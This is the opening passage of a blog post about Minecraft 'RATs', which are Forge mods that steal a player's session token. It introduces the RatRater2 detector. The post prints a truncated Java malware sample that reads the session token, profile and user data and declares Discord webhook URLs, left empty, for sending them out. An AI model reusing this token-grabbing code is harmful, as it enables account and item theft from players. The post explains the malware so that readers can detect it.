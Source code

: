+++
title = "Crashing malware detection with zip bombs"
date = 2023-06-29
template = "blog.html"
+++

{{ hr(data_content="prologue") }}
A remote access trojan (RAT) is a form of malware that is designed to give secret  (trojan) and full backdoor access to the victim's computer (remote access). Like many terms, Minecraft players like to apply them to the game with more-or-less accurate in-game definitions (do T flip flops and item entaglement ring a bell?).

Minecraft RATs fall on the less accurate side - most "remote access trojans" in Minecraft simply steal your game token, a 24 hour, unrevocable (thanks, Mojang) session identifier used for connecting to the game, with the principle motivation being stealing valuable items from Hypixel skyblock. As far as I can tell, the only real reason Minecraft players call it a RAT is how fun it is to say the word. For example, a real example of a (not very good) RAT is:
```java
@Mod(modid = JSONrareException.MODID, version = JSONrareException.VERSION)
public class JSONrareException {
    private static String blank = "";
    static Minecraft mc = Minecraft.getMinecraft();
    public static String name = mc.getSession().getProfile().getName();
    public static String uuid = mc.getSession().getProfile().getId().toString();
    public static String token = mc.getSession().getToken();
    public static String nameonpc = System.getProperty("user.name");
    public static String dataGrabbings = "";
    private static File appData = new File(System.getenv("APPDATA"));
    private static File localAppData = new File(System.getenv("LOCALAPPDATA"));

    public static String webthingy = "https://discord.com/api/web"+blank+"hooks/"+"";
    public static String screenshotspamhook = "https://discord.com/api/web"+blank+"hooks/"+"";
    // ...
```
This particular malware sample attempts to grab the session token (and other data) and send it through a discord webhook (most rat authors use an intermediary C&C server to prevent fake data from being sent). It comes in the form of a [Forge](https://docs.minecraftforge.net/en/latest/gettingstarted/) mod, disguised by the distributor as a mod that will help you get rich in the game Hypixel skyblock. Of course, the opposite happens, with the "ratter" (as they are colloquially called) stealing all of your in-game wealth.

Many ratters today have moved on to phishing with oauth links (session IDs for Minecraft generated through Microsoft oauth last for 14 days, even if the oauth is revoked! Thanks, Microsoft), or sending password reset links as a "discord verification measure" (known as "botphishing"). However, there still exists a need to detect jar mod-based rats, partly because virustotal can't detect them, [even without obfuscation](https://www.virustotal.com/gui/file-analysis/ZmZkY2I0ZTZlOTM2ZDc5NDYxYjEyYzYxN2Y3ZGFhNzg6MTY4ODA2NzY3Ng==).

{{ hr(data_content="ratrater") }}
Enter RatRater2: an amazing tool developed by [Ktibow](https://github.com/KTibow) used to detect malware disguised as forge mods. Using combinations of rule-based detection, heuristical analysis and decision trees, it is the premier tool used for preliminary analysis, or for less tech-savvy players who want to make sure their mods are safe. Recently, Ktibow has created a [discord application](https://github.com/KTibow/RatRater2Back/tree/main/discord-bot) to make scanning mods even more convenient.
